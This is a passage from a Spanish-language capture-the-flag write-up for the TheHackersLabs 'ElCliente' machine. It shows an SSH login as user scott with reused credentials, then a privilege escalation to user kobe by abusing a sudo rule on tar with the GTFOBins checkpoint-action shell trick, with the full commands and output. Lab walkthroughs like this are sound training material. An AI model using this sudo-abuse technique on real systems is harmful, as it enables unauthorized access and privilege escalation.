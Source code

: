 Podríamos enumerar la base de datos de **MySQL**, pero dentro no encontraremos algo que valga la pena.

Así que, probamos estas credenciales en el **servicio SSH**:
```bash
ssh scott@192.168.100.170
scott@192.168.100.170's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.0-85-generic x86_64)
...
Last login: Fri Oct 17 07:41:41 2025
scott@TheHackersLabs-ElCliente:~$ whoami
scott
```
Estamos dentro como un nuevo usuario, pero aquí no encontraremos la flag del usuario.

<br>

<h2 id="Tar">Abusando de Permisos Sudoers sobre Binario tar para Escalar Privilegios y Convertirnos en el Usuario kobe</h2>

Veamos qué privilegios tiene nuestro usuario:
```bash
scott@TheHackersLabs-ElCliente:~$ sudo -l
[sudo] password for scott: 
Matching Defaults entries for scott on TheHackersLabs-ElCliente:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User scott may run the following commands on TheHackersLabs-ElCliente:
    (kobe) PASSWD: /usr/bin/tar
```
Podemos usar el binario **tar** como el **usuario kobe**.

Encontraremos una forma de escalar privilegios usando este binario, dentro de la **guía de GTFOBins**:
* <a href="https://gtfobins.github.io/gtfobins/tar/" target="_blank">GTFOBins: tar</a>

Utilizaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura21.png">
</p>

Probémoslo:
```bash
scott@TheHackersLabs-ElCliente:~$ sudo -u kobe tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
$ whoami
kobe
$ /bin/bash -i
kobe@TheHackersLabs-ElCliente:/home/scott$ whoami
kobe
```
Muy bien, ahora somos el **usuario kobe**.
